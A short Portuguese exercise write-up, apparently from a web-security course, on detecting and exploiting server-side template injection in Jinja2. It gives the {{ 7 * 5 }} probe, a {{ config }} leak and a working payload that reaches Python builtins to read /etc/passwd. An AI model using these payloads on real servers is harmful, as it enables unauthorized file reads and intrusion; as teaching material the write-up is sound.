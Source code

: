 ## Módulo 01 / Exercício 00 - SSTI - Payloads

Ao verificar que os dados de entrada em uma página são refletidas automaticamente nela mesma, é uma indicação de uma possível vulnerabilidade por SSTI. 

Exemplo:

Informando o comando no campo de texto:

    {{ 7 * 5 }}

Caso a resposta seja 35. Surprise! Existe uma renderização no template!

Validando informações do servidor:

    {{ config }}

O script necessário para retornar a resposta esperada no exercício é o seguinte:

    {{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}



Exemplos de Payload:

    https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti









